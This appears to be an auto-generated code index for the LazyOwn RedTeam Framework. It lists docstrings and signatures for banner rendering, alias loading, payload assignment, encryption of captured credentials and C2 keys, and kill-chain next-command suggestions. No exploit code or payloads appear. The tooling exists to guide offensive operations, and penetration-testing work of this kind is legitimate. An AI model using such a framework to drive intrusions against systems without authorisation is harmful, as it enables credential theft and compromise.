*No symbols extracted*

#### `banner.py`
**Path:** `banner.py`
**File Doc:** *banner.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Este archivo contiene la definición de la lógica banners de la aplicaciòn LazyOwn RedTeam Framework  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `image_to_bash` (line 26) `def image_to_bash(image_path, image_res)`
- `list_png_files` (line 50) `def list_png_files()`
- `main` (line 60) `def main()`

#### `__init__.py`
**Path:** `cli/__init__.py`
**File Doc:** *LazyOwn CLI infrastructure.  Tier 2 introduces a declarative, modular layer above ``lazyown.py``:  - ``cli/aliases.yaml`` and :func:`cli.aliases.load_aliases` provide cmd2 aliases as data instead of f-strings hard-coded in the shell class. - ``cli/registry.py`` mounts ``cmd2.CommandSet`` instances onto the running ``LazyOwnShell``, opening the door to phase-based command modules (``cli/commands/recon.py``, ``cli/commands/exploit.py``, ...) without touching the 27k-LOC monolith.*

*No symbols extracted*

#### `aliases.py`
**Path:** `cli/aliases.py`
**File Doc:** *Declarative cmd2 alias loader.  Reads ``cli/aliases.yaml`` and substitutes ``{name}`` placeholders against a payload dict (typically loaded from ``payload.json``). Missing keys substitute to an empty string so a partially configured shell still loads every alias.  Usage::  from core.config import load_payload from cli.aliases import load_aliases  aliases = load_aliases(load_payload()) self.aliases.update(aliases)*

**Classes:**
- `_SafeFormatDict` (line 29) `class _SafeFormatDict(dict)` - *``str.format_map`` source that returns ``""`` for missing/None values.*

**Functions:**
- `_substitute` (line 42) `def _substitute(template, payload)` - *Render ``template`` against ``payload`` placeholders.

Falls back to the literal template if ``str.format_map`` raises
(e.g. unbalanced braces from legacy strings) so a malformed entry
cannot prevent the shell from booting.*
- `template_placeholders` (line 56) `def template_placeholders(template)` - *Return the ``{name}`` placeholders referenced by ``template``.

Malformed templates (unbalanced braces from legacy strings) yield an
empty set — the same fail-safe spirit as :func:`_substitute`.*
- `empty_placeholders` (line 72) `def empty_placeholders(template, context)` - *Return placeholders whose rendered value against ``context`` is empty.*
- `load_aliases` (line 77) `def load_aliases(payload, path, lazy)` - *Return the cmd2 alias map.

Args:
    payload: Configuration dict for placeholder substitution. Used only
        when ``lazy=False``. If ``None`` the function reads
        ``payload.json`` lazily so callers don't have to import
        :mod:`core.config` themselves.
    path: Override the YAML location (used by tests).
    lazy: When ``True`` (default), preserve ``{name}`` placeholders so
        ``LazyOwnShell.onecmd_plus_hooks`` can re-render them against the
        *current* params at execution time — meaning ``set rhost X``
        instantly updates every alias that references ``{rhost}``. Pass
        ``lazy=False`` for the legacy snapshot behaviour.

Returns:
    Flat ``{name: command}`` dict suitable for ``self.aliases.update(...)``.

Raises:
    FileNotFoundError: ``path`` does not exist.
    yaml.YAMLError: file is malformed YAML.
    TypeError: top-level YAML is not a mapping.
    ValueError: a key or value has the wrong type.*

**Methods:**
- `__missing__` (line 32) `def __missing__(self, key)`
- `__getitem__` (line 35) `def __getitem__(self, key)`

#### `assign.py`
**Path:** `cli/assign.py`
**File Doc:** *``assign`` business logic.  Extracted from :class:`LazyOwnShell.do_assign` so the persistence and validation behaviour can be unit-tested without booting the cmd2 shell.  Tier 2.5 promises:  - ``assign <key> <value>`` only succeeds when ``key`` is already part of the payload (no silent introduction of new keys). - On success the live ``params`` dict is mutated in place AND a save callback is invoked so the change survives a shell restart. - On failure (unknown key) nothing is mutated and no save callback fires.  Schema integration (additive, backwards compatible):  - When the key is registered in :data:`core.payload_schema.SCHEMA`, the value is coerced to the canonical type (``"5555"`` → ``5555`` for ports) before being stored, so downstream consumers no longer have to defensively cast. - A schema validation failure for an existing key is reported through the optional ``on_issue`` callback. The assignment still proceeds (legacy lenient contract) except when the value contains shell metacharacters — those are rejected fail-closed so injection payloads never persist.*

**Functions:**
- `apply_assign` (line 36) `def apply_assign(params, key, value)` - *Validate, mutate and persist a single payload assignment.

Args:
    params: Live parameter dict. Mutated in place when ``key`` exists.
    key: Parameter name.
    value: New value to store.
    save: Optional callable invoked with ``params`` after a successful
        mutation. Pass :func:`core.config.save_payload` to persist to
        ``payload.json``. ``None`` skips persistence (useful for tests).
    on_issue: Optional callback invoked with the validation issue when
        the value fails the schema for ``key``. Values containing shell
        metacharacters are rejected fail-closed and never persist.
    history: Optional :class:`cli.config_history.ConfigHistory` that
        receives a snapshot before mutation so ``undo`` can restore it.

Returns:
    ``True`` if ``key`` existed in ``params`` and was updated;
    ``False`` otherwise. Callers can use the return value to decide
    whether to refresh dependent state (e.g. aliases).*

#### `auto_crypto.py`
**Path:** `cli/auto_crypto.py`
**File Doc:** *Automatic encryption of sensitive session data on app open/close.  Before this module the operator had to manually run ``lazyenc.py encrypt`` and ``lazyenc.py decrypt`` to protect session data at rest. This module provides automatic encryption when the application closes and automatic decryption when an authenticated user opens it.  Scope of protection: - ``sessions/credentials_*.txt`` — captured credentials - ``sessions/*.key`` — cryptographic key material - ``sessions/*.pem`` — TLS certificates and keys - ``sessions/world_model.json`` — operational state - ``sessions/hash*.txt`` — captured hashes - ``sessions/.secret_key`` — Flask secret - ``sessions/key.aes`` — C2 beacon key  The module uses the same PBKDF2HMAC + Fernet cryptography as ``lazyenc.py``. The key is derived from the operator's login password (available after ``login`` command) or a stored master password hash.  Design contract (SOLID): - Single responsibility: encrypt/decrypt session data on lifecycle events. - Open/Closed: the list of protected globs is configurable via ``AutoCryptoConfig.protect_globs`` without changing the engine logic. - Dependency Inversion: the engine accepts a ``key_provider`` callable so the key source (CLI login, C2 session, env var) is injected. - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - Atomic writes via temp-file rename.*

**Classes:**
- `AutoCryptoConfig` (line 48) `class AutoCryptoConfig` - *Centralised configuration for automatic session encryption.

Attributes:
    sessions_dir: Path to the sessions directory.
    protect_globs: Glob patterns matching files to protect.
    password_provider: Callable that returns the operator's password
        (or None when unauthenticated).
    auto_enabled: When False the engine is a no-op.
    pbkdf2_iterations: Iteration count for PBKDF2 key derivation.*
- `AutoCryptoEngine` (line 77) `class AutoCryptoEngine` - *Encrypt and decrypt sensitive session files with a derived key.

Args:
    config: Engine configuration. Defaults are sensible for the
        standard LazyOwn sessions layout.*

**Functions:**
- `build_password_provider_from_cli_login` (line 297) `def build_password_provider_from_cli_login()` - *Return a password provider that reads the CLI login session.

The provider tries:
1. ``modules.cli_auth.get_current_operator()`` for username,
   then reads the operator's stored credential hash from ``users.json``.
2. Falls back to ``LAZYOWN_MASTER_PASSWORD`` environment variable.
3. Returns None when no credential is available (crypto is skipped).

Returns:
    A zero-argument callable returning the operator's password or None.*
- `_provider` (line 310) `def _provider()`

**Methods:**
- `__init__` (line 85) `def __init__(self, config)`
- `enabled` (line 90) `def enabled(self)` - *Whether the engine performs any I/O.*
- `is_encrypted` (line 95) `def is_encrypted(self)` - *Check whether session data appears encrypted.

Returns True when at least one protected file has the encrypted
suffix marker applied. A directory with no protected files at all
returns False (nothing to protect).*
- `encrypt_session` (line 124) `def encrypt_session(self)` - *Encrypt all protected session files.

Returns True when at least one file was encrypted, False when no
password is available or no files exist to protect.*
- `decrypt_session` (line 174) `def decrypt_session(self)` - *Decrypt all protected session files.

Returns True when at least one file was decrypted, False when no
encrypted files exist or the password is wrong/absent.*
- `has_password` (line 239) `def has_password(self)` - *Return True when the configured provider yields a password now.

Exit paths use this to distinguish "nothing to protect" from
"no credential available", so a skipped encryption is never
silent.

Returns:
    True when a non-empty password is available.*
- `_get_password` (line 251) `def _get_password(self)`
- `_load_or_create_salt` (line 260) `def _load_or_create_salt(self)`
- `_derive_key` (line 291) `def _derive_key(password, salt)`

#### `autosuggest.py`
**Path:** `cli/autosuggest.py`
**File Doc:** *Ghost-text autosuggest engine for the LazyOwn cmd2 shell.  After every command, the engine consults its provider chain to pick the most likely next command. The selected :class:`Suggestion` is held as state, surfaced as a dim ANSI fragment inside the cmd2 prompt, and executed with a single keystroke via the ``do_next`` shell command (or its ``.`` alias).  The module is pure presentation + state. It does not import cmd2, Flask, or any LazyOwn module so providers and the engine remain unit-testable in isolation. Concrete providers receive their backing data structures via constructor injection (Dependency Inversion).*

**Classes:**
- `SuggestionContext` (line 50) `class SuggestionContext` - *Inputs available to every suggestion provider.

Args:
    last_command: First token of the last command executed.
    phase: Current engagement phase (recon, enum, exploit, ...).
    recent_commands: Last N commands from the session transcript,
        newest entries appearing last.
    target: Active rhost loaded from ``payload.json``.
    os_hint: Detected target OS — ``"linux"``, ``"windows"``, or
        ``"unknown"``.*
- `Suggestion` (line 71) `class Suggestion` - *One next-command suggestion with its rationale.

Args:
    command: Shell command executed when the operator accepts the
        suggestion via ``do_next``.
    reason: Human-readable explanation surfaced in the prompt and
        event log.
    score: Provider-specific confidence. Higher is better. The
        :class:`CompositeProvider` uses it to arbitrate across
        providers.
    source: Short label identifying which provider produced the
        suggestion (``graph``, ``killchain``, ``phase``, ...).*
- `SuggestionProvider` (line 92) `class SuggestionProvider(Protocol)` - *Provider contract: examine context, return one suggestion or ``None``.*
- `CompositeProvider` (line 98) `class CompositeProvider` - *Aggregator that returns the highest-scoring suggestion across providers.

Adding a provider is a constructor argument; the engine itself
never changes, honouring the Open/Closed principle.*
- `KillChainProvider` (line 134) `class KillChainProvider` - *Provider backed by the static kill-chain adjacency map.

Falls back to the phase-priority table when no adjacency entry
exists for the last command. Commands already present in
:attr:`SuggestionContext.recent_commands` are skipped so the
suggestion is always forward-looking.*
- `GraphProvider` (line 189) `class GraphProvider` - *Provider backed by the graphify knowledge-graph advisor.

Accepts any object exposing ``suggest_next(recent_commands, limit)``
returning a list of dicts so this module stays decoupled from the
concrete :class:`cli.graph_advisor.GraphAdvisor` implementation.*
- `AutoSuggestEngine` (line 245) `class AutoSuggestEngine` - *Stateful holder for the active ghost-text suggestion.

The engine is a thin coordinator: it never decides what to suggest
(delegated to its :class:`SuggestionProvider`) and only owns the
current-suggestion state machine plus the rendering surface for the
prompt.*

**Functions:**
- `_truncate` (line 335) `def _truncate(value, max_len)` - *Return ``value`` shortened to ``max_len`` characters with an ellipsis.*
- `format_hint_line` (line 342) `def format_hint_line(suggestion)` - *Build the dim hint string surfaced after each command.

The format is deliberately compact and unambiguous about the
accept key: ``  >> press '.' to run: gobuster (reason via graph)``.
Truncation honours :data:`HINT_COMMAND_LIMIT` and
:data:`HINT_REASON_LIMIT` so the line never exceeds one terminal
row at the typical 100-column width.

Args:
    suggestion: Suggestion to render.
    accept_key: Visible key the operator presses to accept.
    command_limit: Maximum command-fragment length.
    reason_limit: Maximum reason-fragment length.

Returns:
    Plain string (no ANSI). The shell wraps it in dim style at
    render time so callers can pipe the value into logs without
    carrying escape codes.*
- `render_hint_line` (line 375) `def render_hint_line(engine)` - *Print one dim hint line for the engine's active suggestion.

Returns ``True`` when something was printed, ``False`` otherwise.
The function is a no-op when the engine is disabled or has no
active suggestion so callers can register it unconditionally as a
cmd2 postcmd hook.

Args:
    engine: :class:`AutoSuggestEngine` whose current suggestion to
        render.
    console: Optional ``rich.console.Console`` instance. When
        ``None`` a module-private console is used so tests can
        inject a capturing console.
    prefix: Leading marker, default matches ``cli.reactive_hints``.
    accept_key: Visible accept-key hint passed through to
        :func:`format_hint_line`.*
- `_hint_console` (line 411) `def _hint_console()` - *Return a lazily-initialised :class:`rich.console.Console`.

Imported lazily so unit tests can run without ``rich`` installed.
The instance is cached at module scope so subsequent calls reuse
the same console.*
- `build_default_engine` (line 427) `def build_default_engine(advisor, chain, phase_priority)` - *Wire the canonical provider chain used by the cmd2 shell.

Order is: graph provider (high signal) followed by the kill-chain
fallback. Each provider is wrapped defensively so a misbehaving
advisor cannot break the prompt.

Args:
    advisor: Optional graph advisor. When ``None`` or when
        ``advisor.is_available()`` returns ``False`` the graph
        provider is omitted.
    chain: Static kill-chain adjacency map shared with
        ``cli.reactive_hints``.
    phase_priority: Phase-priority map shared with the same module.
    enabled: Initial enable state for the engine.

Returns:
    An :class:`AutoSuggestEngine` ready to register with cmd2.*

**Methods:**
- `suggest` (line 95) `def suggest(self, context)`
- `__init__` (line 105) `def __init__(self, providers)` - *Store the provider chain.

Args:
    providers: Sequence of objects implementing
        :class:`SuggestionProvider`. Order is irrelevant for
        correctness; the highest score wins.*
- `suggest` (line 115) `def suggest(self, context)` - *Return the best suggestion across the chain, or ``None``.

A misbehaving provider that raises is silently skipped so a
single broken adapter cannot break the prompt.*
- `__init__` (line 143) `def __init__(self, chain, phase_priority)` - *Configure the provider.

Args:
    chain: ``command -> [next_command, ...]`` adjacency map.
    phase_priority: ``phase -> [command, ...]`` fallback map.
    base_score: Score assigned to adjacency matches. Phase
        fallbacks receive ``base_score * PHASE_FALLBACK_FACTOR``.*
- `suggest` (line 162) `def suggest(self, context)` - *Return the first unseen adjacency, or phase fallback, or ``None``.*
- `__init__` (line 197) `def __init__(self, advisor)` - *Configure the provider.

Args:
    advisor: Object exposing ``suggest_next`` with the contract
        described in the class docstring.
    limit: Number of candidates to request from the advisor.
        The top-ranked entry is returned to the engine.
    base_score: Floor score for any non-empty graph result.
    score_weight: Multiplier applied to the advisor-supplied
        score when blending with ``base_score``.*
- `suggest` (line 221) `def suggest(self, context)` - *Query the advisor and adapt the top result to a :class:`Suggestion`.*
- `__init__` (line 254) `def __init__(self, provider)` - *Store the provider and enabled flag.

Args:
    provider: Object implementing :class:`SuggestionProvider`.
        Typically a :class:`CompositeProvider`.
    enabled: Whether the engine refreshes suggestions on each
        postcmd hook. The shell flips this from
        ``payload.json["enable_autosuggest"]`` so the operator
        can toggle without a restart.*
- `enabled` (line 270) `def enabled(self)` - *Whether the engine refreshes suggestions on each command.*
- `set_enabled` (line 274) `def set_enabled(self, value)` - *Toggle the engine without losing the provider chain.

Disabling clears the active suggestion so the prompt returns to
its plain form on the next render.*
- `current` (line 284) `def current(self)` - *Return the suggestion last computed, or ``None`` when cleared.*
- `clear` (line 288) `def clear(self)` - *Drop the active suggestion (called after accept or abort).*
- `refresh` (line 292) `def refresh(self, context)` - *Recompute the suggestion from the provider chain.

Commands listed in :data:`SKIP_TRIGGER_COMMANDS` are ignored so
refreshing after ``help`` or ``next`` is meaningless or
recursive. When the engine is disabled the current suggestion
is cleared and ``None`` is returned.*
- `accept` (line 309) `def accept(self)` - *Return the active command string and clear the suggestion.*
- `display_text` (line 317) `def display_text(self)` - *Return the ANSI-coloured ghost-text fragment for legacy callers.

The fragment is empty when no suggestion is active or when the
engine is disabled. The rendered command is truncated to
:data:`GHOST_TEXT_LIMIT` characters. This API is preserved for
callers that want to embed the suggestion inline; the cmd2
shell uses :func:`render_hint_line` instead so the prompt
itself stays clean.*

#### `banner_config.py`
**Path:** `cli/banner_config.py`
**File Doc:** *Configurable Neon Box banner for the LazyOwn interactive shell.  The module exposes a single, self-contained banner subsystem with three extension axes the operator can tune through a curses wizard or directly inside ``payload.json``:  1. **Segments** — which pieces of information appear in the prompt (``user_host``, ``iface``, ``rhost``, ``domain``, ``cwd``, ``git`` …). 2. **Colors** — a per-segment named ANSI color picked from :class:`ColorRegistry`. 3. **Glyphs** — the box-drawing characters, segment markers, arrows and prompt characters drawn between values, picked from :class:`GlyphRegistry`.  The wizard mirrors Powerlevel10k's flow: three tabs (Segments / Colors / Glyphs) navigable with ``Tab`` / ``Shift+Tab``, arrow keys plus ``Space`` or ``←/→`` to toggle/cycle, a live preview anchored beneath the body, and ``Enter`` to commit. ``payload.json`` carries the result under the ``banner`` block so it survives shell restarts.  Design (SOLID):  - ``BannerConfig`` centralises every magic constant (keys, key codes, palette pair ids, layout, payload field names, cache TTLs). - ``ColorRegistry`` and ``GlyphRegistry`` are Open/Closed extension points: adding a new color name or glyph slot only requires extending the preset map. - ``SegmentSpec`` describes a segment; ``SegmentRenderer`` is the only thing that knows how to format a value (Single Responsibility). - ``SegmentRegistry`` holds the canonical segment set; ``BannerSettings``*

**Classes:**
- `BannerConfig` (line 59) `class BannerConfig` - *Centralised constants for the banner renderer and configurator.*
- `ColorRegistry` (line 143) `class ColorRegistry` - *Named ANSI colors operators can assign to any segment.

Names are stable identifiers; the underlying escape codes are an
implementation detail. Cycling through names produces a deterministic
ordering so the wizard never surprises the operator.*
- `GlyphRegistry` (line 191) `class GlyphRegistry` - *Glyph slots used by the Neon Box renderer with cyclable choices.*
- `SegmentSpec` (line 237) `class SegmentSpec` - *Metadata describing a prompt segment available for toggling.*
- `ColorPalette` (line 250) `class ColorPalette` - *ANSI escape codes for the box chrome itself.

The chrome (corners, fillers, brackets, accents) keeps a coherent
look; only the per-segment *value* color is operator-tunable through
:class:`ColorRegistry`.*
- `RenderContext` (line 268) `class RenderContext` - *Pre-resolved data delivered to every :class:`SegmentRenderer`.*
- `SegmentRenderer` (line 314) `class SegmentRenderer(ABC)` - *Contract for a single prompt segment.*
- `UserHostSegment` (line 325) `class UserHostSegment(SegmentRenderer)`
- `IfaceSegment` (line 340) `class IfaceSegment(SegmentRenderer)`
- `LhostSegment` (line 359) `class LhostSegment(SegmentRenderer)`
- `RhostSegment` (line 376) `class RhostSegment(SegmentRenderer)`
- `DomainSegment` (line 393) `class DomainSegment(SegmentRenderer)`
- `PublicIpSegment` (line 410) `class PublicIpSegment(SegmentRenderer)`
- `CwdSegment` (line 427) `class CwdSegment(SegmentRenderer)`
- `GitSegment` (line 443) `class GitSegment(SegmentRenderer)`
- `VenvSegment` (line 465) `class VenvSegment(SegmentRenderer)`
- `TimeSegment` (line 482) `class TimeSegment(SegmentRenderer)`
- `KernelSegment` (line 497) `class KernelSegment(SegmentRenderer)`
- `VersionSegment` (line 514) `class VersionSegment(SegmentRenderer)`
- `KarmaSegment` (line 531) `class KarmaSegment(SegmentRenderer)`
- `BatteryLoadSegment` (line 561) `class BatteryLoadSegment(SegmentRenderer)`
- `SegmentRegistry` (line 578) `class SegmentRegistry` - *Open/Closed registry of available prompt segments.*
- `BannerSettings` (line 628) `class BannerSettings` - *Mutable banner state: enabled segments + per-segment color + glyph slots.*
- `ContextResolver` (line 734) `class ContextResolver` - *Resolve a :class:`RenderContext` once per prompt render, with caches.*
- `BannerRenderer` (line 961) `class BannerRenderer` - *Pure renderer of the three-line Neon Box prompt.*
- `_WizardTab` (line 1029) `class _WizardTab` - *Identifiers for the three wizard tabs.*
- `BannerConfigurator` (line 1037) `class BannerConfigurator` - *Curses-driven p10k-style wizard editing segments, colors and glyphs.*

**Functions:**
- `_bracketed` (line 293) `def _bracketed(label, value, bullet, value_color, ctx, glyphs)` - *Render one bracketed top-row segment with the chosen value color.*
- `_middle` (line 307) `def _middle(label, value, value_color, ctx, glyphs)` - *Render one middle-row segment with the chosen value color.*
- `build_default_registry` (line 604) `def build_default_registry()` - *Return the registry populated with the canonical segment set.*
- `_read_network_info` (line 873) `def _read_network_info()` - *Return ``{interface: ip}`` for every globally-scoped IPv4 link.*
- `_select_iface` (line 892) `def _select_iface(network, preferred)`
- `_git_branch` (line 902) `def _git_branch()`
- `_git_dirty` (line 914) `def _git_dirty()`
- `_venv_name` (line 923) `def _venv_name()`
- `_battery_or_load` (line 929) `def _battery_or_load()`
- `default_palette` (line 948) `def default_palette()` - *Box-chrome palette used around segment values.*
- `_readline_safe` (line 1353) `def _readline_safe(prompt, config)` - *Wrap ANSI escape sequences with readline zero-width markers.

Readline measures cursor position by counting visible characters, so
every non-printing ANSI escape must sit between the SOH/STX markers
from :class:`BannerConfig`. Newlines are printable line breaks and
are always left bare: wrapping them corrupts multiline redisplay and
leaks visible ``^A``/``^B`` glyphs on terminals whose input layer
does not interpret readline markers.

Args:
    prompt: Raw ANSI prompt produced by :class:`BannerRenderer`.
    config: Centralised constants. ``None`` uses defaults.

Returns:
    Prompt with ANSI escapes wrapped and newlines untouched.*
- `strip_readline_markers` (line 1382) `def strip_readline_markers(text, config)` - *Remove readline zero-width markers from prompt text.

Args:
    text: Prompt that may contain SOH/STX markers.
    config: Centralised constants. ``None`` uses defaults.

Returns:
    Text without readline markers. ANSI escapes are preserved.*
- `render_prompt` (line 1396) `def render_prompt(payload, config, readline_safe)` - *Render the Neon Box prompt from a payload dictionary.

Reads the operator's segment, color and glyph selection from
``payload[banner]`` and walks the canonical registry. Segments whose
underlying value cannot be resolved (no git, no venv, no network) drop
silently so the prompt never shows empty brackets.

The shell runs on cmd2 with prompt_toolkit, which parses ANSI
natively and renders SOH/STX bytes as visible ``^A``/``^B`` glyphs.
Marker fencing therefore defaults to off. Enable it only for
genuine GNU-readline consumers, never for the interactive shell.

Args:
    payload: Loaded ``payload.json`` mapping. ``None`` uses defaults.
    config: Centralised constants. ``None`` uses defaults.
    readline_safe: When ``True`` wrap ANSI escapes with readline
        zero-width markers for GNU-readline ``input()`` consumption.
        When ``False`` return the raw ANSI prompt for prompt_toolkit
        and every direct-display surface.

Returns:
    Three-line Neon Box prompt string.*
- `configure_banner_interactive` (line 1436) `def configure_banner_interactive(payload, config)` - *Open the multi-tab curses wizard and return updated settings on save.

Returns ``None`` when the operator cancels or the environment cannot
host a curses session. Callers persist the returned
:class:`BannerSettings` through ``BannerSettings.to_payload_block``.*
- `banner_summary` (line 1456) `def banner_summary(settings, registry)` - *Return a single-line summary listing enabled segment ids.*

**Methods:**
- `names` (line 170) `def names(self)`
- `has` (line 173) `def has(self, name)`
- `resolve` (line 176) `def resolve(self, name)`
- `cycle` (line 179) `def cycle(self, current, direction)`
- `default_name` (line 187) `def default_name(self)`
- `slots` (line 212) `def slots(self)`
- `choices` (line 215) `def choices(self, slot)`
- `has` (line 218) `def has(self, slot)`
- `default` (line 221) `def default(self, slot)`
- `cycle` (line 225) `def cycle(self, slot, current, direction)`
- `spec` (line 319) `def spec(self)`
- `render` (line 322) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 336) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 351) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 370) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 387) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 404) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 421) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 438) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 454) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 476) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 493) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 508) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 525) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 542) `def render(self, ctx, cfg, color, glyphs)`
- `render` (line 572) `def render(self, ctx, cfg, color, glyphs)`
- `__init__` (line 581) `def __init__(self)`
- `register` (line 584) `def register(self, segment)`
- `get` (line 587) `def get(self, segment_id)`
- `all` (line 590) `def all(self)`
- `by_group` (line 600) `def by_group(self, group)`
- `defaults` (line 636) `def defaults(cls, registry, color_registry, glyph_registry)`
- `from_payload` (line 651) `def from_payload(cls, registry, payload, key, color_registry, glyph_registry)`
- `is_enabled` (line 685) `def is_enabled(self, segment_id)`
- `toggle` (line 688) `def toggle(self, segment_id)`
- `enable_all` (line 694) `def enable_all(self, registry)`
- `disable_all` (line 697) `def disable_all(self)`
- `reset_segments` (line 700) `def reset_segments(self, registry)`
- `reset_colors` (line 703) `def reset_colors(self, registry)`
- `reset_color_for` (line 706) `def reset_color_for(self, segment_id, registry)`
- `reset_glyphs` (line 711) `def reset_glyphs(self, glyph_registry)`
- `reset_glyph_for` (line 714) `def reset_glyph_for(self, slot, glyph_registry)`
- `cycle_color` (line 718) `def cycle_color(self, segment_id, color_registry, direction)`
- `cycle_glyph` (line 722) `def cycle_glyph(self, slot, glyph_registry, direction)`
- `to_payload_block` (line 726) `def to_payload_block(self)`
- `__init__` (line 741) `def __init__(self, cfg, palette)`
- `resolve` (line 745) `def resolve(self, payload, network)`
- `_public_ip` (line 777) `def _public_ip(self, payload)`
- `_kernel` (line 796) `def _kernel(self)`
- `_version` (line 808) `def _version(self)`
- `_engagement_stats` (line 826) `def _engagement_stats()` - *Read ELO and karma — user's personal ELO if logged in, else engagement ELO.

Returns:
    Tuple of (elo, karma_name).*
- `_operator_name` (line 859) `def _operator_name()` - *Read the current operator name from the CLI session.

Returns:
    Operator username, or empty string if not logged in.*
- `__init__` (line 964) `def __init__(self, config, registry, color_registry, glyph_registry)`
- `render` (line 976) `def render(self, settings, ctx)`
- `_merged_glyphs` (line 985) `def _merged_glyphs(self, settings)`
- `_render_group` (line 992) `def _render_group(self, settings, ctx, group, glyphs)`
- `_build_top` (line 1006) `def _build_top(self, pieces, palette, glyphs)`
- `_build_middle` (line 1013) `def _build_middle(self, pieces, palette, glyphs)`
- `_build_bottom` (line 1019) `def _build_bottom(self, palette, glyphs)`
- `__init__` (line 1047) `def __init__(self, config, registry, color_registry, glyph_registry, renderer, ctx, initial)`
- `run` (line 1071) `def run(self)`
- `_tty_available` (line 1082) `def _tty_available()`
- `_loop` (line 1085) `def _loop(self, stdscr)`
- `_cycle_tab` (line 1120) `def _cycle_tab(self, direction)`
- `_rows_for` (line 1124) `def _rows_for(self, tab)`
- `_dispatch_action` (line 1133) `def _dispatch_action(self, key, rows, cursor)`
- `_init_colors` (line 1163) `def _init_colors(self)`
- `_render` (line 1190) `def _render(self, stdscr, rows, cursor)`
- `_draw_frame` (line 1215) `def _draw_frame(self, stdscr, top, left, height, width)`
- `_draw_header` (line 1229) `def _draw_header(self, stdscr, top, left, width)`
- `_draw_tabs` (line 1248) `def _draw_tabs(self, stdscr, row_y, left, width)`
- `_draw_segments` (line 1265) `def _draw_segments(self, stdscr, top, left, width, rows, cursor)`
- `_draw_colors` (line 1282) `def _draw_colors(self, stdscr, top, left, width, rows, cursor)`
- `_draw_glyphs` (line 1295) `def _draw_glyphs(self, stdscr, top, left, width, rows, cursor)`
- `_addrow` (line 1309) `def _addrow(self, stdscr, row_y, left, width, text, attr)`
- `_draw_preview` (line 1318) `def _draw_preview(self, stdscr, top, left, width, lines)`
- `_draw_footer` (line 1330) `def _draw_footer(self, stdscr, row_y, left, width)`
- `_color` (line 1344) `def _color(self, pair)`

#### `chain_mode.py`
**Path:** `cli/chain_mode.py`
**File Doc:** *Interactive kill-chain chaining coordinator.  This module glues the framework's existing "what next" brains (:class:`cli.command_chain.CommandChain`, which fuses the static kill-chain tables with nmap-discovered services, addon triggers and the engagement phase) to an interactive prompt loop so the operator can walk every kill-chain phase without ever leaving the shell flow.  After a command executes the operator is shown the world-model-driven next steps and may:  * press **Enter** to run the top suggestion, * type ``1..N`` to run that ranked alternative, * type **any command** to override the suggestion ("no, run nmap instead") — that command executes and the chain continues from it, * type ``skip`` to step out of the chain while keeping chain mode on, * press **ESC**, **Ctrl+C** or type ``exit``/``quit``/``off`` to leave chain mode entirely (persisted, so it stays off until the operator runs ``chainmode on`` again).  Design (SOLID):  * ``ChainModeConfig`` centralises every magic value. * ``ChainModeStore`` owns atomic persistence to ``sessions/chain_mode.json`` (same pattern as ``daemon_control.json``). * ``ChainPromptEngine`` is pure coordination: it receives suggestions from an injected ``resolver`` callable, renders via an injected ``print_fn``, reads operator input (TTY-aware, with ESC/Ctrl+C support) and returns a :class:`ChainOutcome` — it never executes commands itself and has zero coupling to ``cmd2`` or ``lazyown.py``.*

**Classes:**
- `_ChainEscExit` (line 73) `class _ChainEscExit(Exception)` - *Internal signal: the operator pressed ESC at the chain prompt.*
- `ChainSuggestion` (line 183) `class ChainSuggestion` - *A single next-step proposal, normalised from any resolver output.*
- `ChainOutcome` (line 212) `class ChainOutcome` - *Result of one chain prompt round.

Attributes:
    state: One of ``OUTCOME_RUN`` (execute ``command``), ``OUTCOME_SKIP``,
        ``OUTCOME_OFF`` (chain mode disabled) or ``OUTCOME_NONE``
        (no interaction happened).
    command: The command line to execute when state is ``run``. This is
        either the top suggestion, a numbered alternative, or the
        operator's own override.
    reason: Human-readable explanation for the outcome.*
- `ChainModeConfig` (line 231) `class ChainModeConfig` - *Centralised configuration for the chain prompt engine.*
- `ChainModeStore` (line 242) `class ChainModeStore` - *Atomic persistence of the chain-mode toggle in the sessions dir.

Persistence is best-effort by design: a read-only sessions directory
must never break the interactive chain flow. Failures are logged so
operators and developers can see them instead of failing silently.*
- `ChainPromptEngine` (line 298) `class ChainPromptEngine` - *Coordinate one interactive chain prompt round per executed command.*

**Functions:**
- `_read_line_unix` (line 77) `def _read_line_unix(prompt)` - *Read one line in raw TTY mode, honouring ESC, Ctrl+C and backspace.

Raw mode is required because canonical terminal input does not
deliver a lone ESC byte until Enter is pressed. The original termios
settings are restored in ``finally`` so the cmd2 readline prompt is
unaffected.

Args:
    prompt: Text printed before reading.

Returns:
    The typed line without the trailing newline.

Raises:
    _ChainEscExit: The operator pressed ESC.
    KeyboardInterrupt: The operator pressed Ctrl+C.
    EOFError: End of input with an empty line.*
- `_read_line_windows` (line 136) `def _read_line_windows(prompt)` - *Read one line on Windows, honouring ESC, Ctrl+C and backspace.

Args:
    prompt: Text printed before reading.

Returns:
    The typed line without the trailing newline.

Raises:
    _ChainEscExit: The operator pressed ESC.
    KeyboardInterrupt: The operator pressed Ctrl+C.
    EOFError: End of input with an empty line.*

**Methods:**
